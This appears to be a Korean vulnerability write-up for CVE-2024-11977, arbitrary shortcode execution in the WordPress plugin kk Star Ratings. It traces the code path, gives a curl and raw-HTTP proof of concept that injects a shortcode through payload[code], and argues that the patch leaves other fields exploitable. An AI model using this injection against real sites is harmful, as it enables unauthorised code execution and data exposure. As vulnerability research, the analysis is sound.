 # CVE-2024-11977

## Index
* [📌 Analysis](#📌-analysis)
    * [1. 개요](#1-개요)
    * [2. 취약점 분석](#2-취약점-분석)
* [📌 PoC](#📌-poc)
    * [1. 설명](#1-설명)
    * [2. PoC 코드](#2-poc-코드)
* [📌 패치 확인](#📌-패치-확인)


## 📌 Analysis

### 1. 개요

`CVE-2024-11977` 취약점은 WordPress 플러그인 `The The kk Star Ratings - Rate Post & Collect User Feedbacks`의 5.4.10 버전 이하에서 발생하는 임의 단축 코드(`do_shortcode`) 실행 취약점입니다.

해당 플러그인은 활성화되면 WordPress 게시글에 평점을 입력할 수 있는 요소가 나타납니다.

![image](images/image-001.png)

이때, 평점을 입력하면 서버로 전송되는 요청값이 적절한 검증 없이 `do_shortcode` 함수의 인자로 전달되어 임의의 단축 코드가 실행될 수 있습니다. 또한 인증되지 않은 사용자도 이 기능을 실행할 수 있어, 공격자가 WordPress의 단축 코드 기능을 악용하면 다음과 같은 보안 위험이 발생할 수 있습니다.

- **코드 실행 위험:** `do_shortcode`로 전달된 단축 코드가 처리될 때 PHP 함수가 실행 되며, 이때 악의적인 단축 코드를 삽입하여 임의의 PHP 코드를 실행할 수 있습니다.
- **정보 유출:** 단축 코드를 통해 데이터베이스 쿼리나 파일 시스템에 접근하여 중요한 정보를 탈취하거나 노출시킬 수 있습니다.
- **권한 우회:** 특정 단축 코드는 관리자 권한이 필요하지만, 검증되지 않은 단축 코드가 실행될 경우 일반 사용자가 관리자 권한이 필요한 단축 코드를 실행할 수 있습니다.
- **추가 공격 벡터**: XSS나 CSRF와 같은 다른 공격의 진입점으로 활용될 수 있습니다.
- **서비스 장애:** 무분별한 단축 코드 실행은 서버 리소스를 과도하게 소모하거나 무한 루프를 발생시켜 서비스 중단을 초래할 수 있습니다.

### 2. 취약점 분석

WordPress 플러그인 `The The kk Star Ratings - Rate Post & Collect User Feedbacks` 이 활성화된 상태에서 게시글의 평점을 클릭할 경우 아래의 HTTP Request 패킷이 발생하게 됩니다.

![image](images/image-002.png)

이때 Request Body 데이터 중 페이로드 `payload` 의 값은 다음과 같으며,

```php
[
    "align" => "left",
    "id" => 1,
    "slug" => "default", 
    "valign" => "top",
    "ignore" => "",
    "reference" => "auto",
    "class" => "",
    "count" => 4,
    "legendonly" => "",
    "readonly" => "",
    "score" => 4,
    "starsonly" => "",
    "best" => 5,
    "gap" => 5,
    "greet" => "Rate this post",
    "legend" => "4/5 - (4 votes)",
    "size" => 24,
    "title" => "Hello world!",
    "width" => 113.5,
    "_legend" => "{score}/{best} - ({count} {votes})",
    "font_factor" => 1.25
]
```

요청은 `/wp-content/plugins/kk-star-ratings/src/core/wp/actions/wp_ajax_kk-star-ratings.php` 파일의 `wp_ajax_kk_star_ratings` 함수에서 처리됩니다.

`wp_ajax_kk_star_ratings` 함수의 코드 구문을 살펴보면, **line 39**에서 변수 `$payload`에 요청 페이로드 `payload`의 값을 초기화합니다. 이후 **line 92**에서 이 값을 함수 `to_shortcode`의 두 번째 인자로 전달하고, 그 결과를 다시 `do_shortcode`의 인자로 전달한 뒤 해당 함수 `do_shortcode` 의 실행 결과를 HTTP 상태코드 `201`과 함께 응답합니다.

![image](images/image-003.png)

**line 92**의  `to_shortcode` 함수는 단축 코드를 생성하는 로직이 구현되어 있으며, 해당 함수는 `/wp-content/plugins/kk-star-ratings/src/functions/to_shortcode.php` 파일에 정의되어 있습니다.

![image](images/image-004.png)

해당 함수의 로직에 대한 출력 예제는 다음과 같습니다.

```php
<?php
// 1. 단순 숏코드 생성
echo to_shortcode('gallery', ['ids' => '1,2,3']);
// 결과: [gallery ids="1,2,3"]

// 2. 속성과 내용 포함
echo to_shortcode('div', ['id' => 'main', 'class' => 'container', 'data-role' => 'content'], 'Hello World');
// 결과: [div id="main" class="container" data-role="content"]Hello World[/div]

// 3. 속성이 없는 숏코드
echo to_shortcode('audio', [], '');
// 결과: [audio]
```

즉, 아까 확인한 HTTP Request Body 데이터의 페이로드 `payload` 의 값은 `to_shortcode` 함수로 전달될 경우 아래의 결과를 출력하게 됩니다. 

이때, `to_shortcode` 함수의 첫 번째 인자로 전달되는 `kksr('slug')`는 `kk-star-ratings`로 변환되었으며, 일부 존재하지 않거나 변경된 값들은 `wp_ajax_kk_star_ratings` 함수의 로직에 의해 처리된 것입니다.

```
[kk-star-ratings align="left" id="1" slug="default" valign="top" ignore="" reference="auto" class="" legendonly="" readonly="" starsonly="" best="5" gap="5" greet="Rate this post" legend="{score}/{best} - ({count} {votes})" size="24" title="Hello world!" width="113.5" _legend="{score}/{best} - ({count} {votes})" font_factor="1.25"]
```

따라서, 페이로드 `payload` 의 값은 `do_shortcode` 함수의 인자로 전달되므로 페이로드의 값을 조작하여 임의의 단축 코드를 실행할 수 있는 취약점이 발생하게 됩니다.

## 📌 PoC

### 1. 설명

평점을 기록할 때 발생하는 HTTP Request 패킷을 아래의 데이터로 요청합니다.

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost:8080
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 99

nonce=42d41f5dc3&action=kk-star-ratings&rating=5&payload[code]=][video+src=http://video.com+][video
```

![image](images/image-005.png)

이때, 요청 페이로드 `payload`는 다음과 같은 데이터로 전달됩니다.

```php
[ "code" => "][video src=http://video.com ][video" ]
```

전달된 `payload`는 `to_shortcode` 함수의 인자로 전달되어 다음과 같은 단축 코드로 변환됩니다.

```
[kk-star-ratings code="][video src=http://video.com ][video" id="0" slug="default" best="5" _legend="{score}/{best} - ({count} {votes})" legend="{score}/{best} - ({count} {votes})"]
```

이렇게 생성된 코드는 `[kk-start-ratings]`와 `[video]` 두 개의 단축 코드로 구성되며, 이는 `do_shortcode` 함수의 인자로 전달되어 아래의 응답 데이터를 생성합니다.

![image](images/image-006.png)

즉, 의도되지 않은 단축코드 `[video]` 가 실행 되어 `<a class="wp-embedded-video" href="http://video.com">http://video.com</a>` 가 반환된 것을 확인할 수 있습니다.

이러한 취약점을 통해 공격자는 WordPress의 모든 단축 코드를 실행할 수 있으며, 이는 WordPress 플러그인이나 테마에서 제공하는 단축 코드까지 포함됩니다. 특히 파일 업로드나 데이터베이스 조작과 관련된 단축 코드가 있다면 심각한 보안 위험이 발생할 수 있습니다.

### 2. PoC 코드

> 아래 요청 페이로드에서 사용되는 `nonce` 값은 평점 기록이 포함된 게시글 페이지에서 확인할 수 있습니다.
> 
> 
> ![image](images/image-007.png)
> 

```php
curl -X POST "http://localhost:8080/wp-admin/admin-ajax.php" \
	--data-urlencode "nonce=42d41f5dc3" \
	--data-urlencode "action=kk-star-ratings" \
	--data-urlencode "rating=5" \
	--data-urlencode "payload[code]=][video src=http://video.com ][video"
```

## 📌 패치 확인

해당 취약점의 패치는 요청 페이로드의 `payload`를 변수 `$payload`로 초기화한 후, `do_shortcode` 함수 호출 전에 `$payload['_legend']` 값이 있을 경우 `strip_shortcodes` 함수로 단축 코드를 제거하였습니다.

즉, `strip_shortcodes` 함수를 사용하여 요청 페이로드 `payload[_legend]`에서 단축 코드를 제거하도록 처리하였습니다.

> https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3208701%40kk-star-ratings&old=3202212%40kk-star-ratings&sfp_email=&sfph_mail=#file474
> 

![image](images/image-008.png)

다만, 해당 취약점의 패치는 요청 페이로드 `payload[_legend]` 에 대해서만 임의 단축코드 실행 취약점을 방지하고 있으며, 다른 페이로드 필드에 대해서는 여전히 취약점이 존재합니다.

예를 들어, `payload[code]`나 다른 필드를 통해 여전히 임의의 단축 코드를 실행할 수 있는 가능성이 있어 완전한 보안 패치라고 보기는 어렵습니다.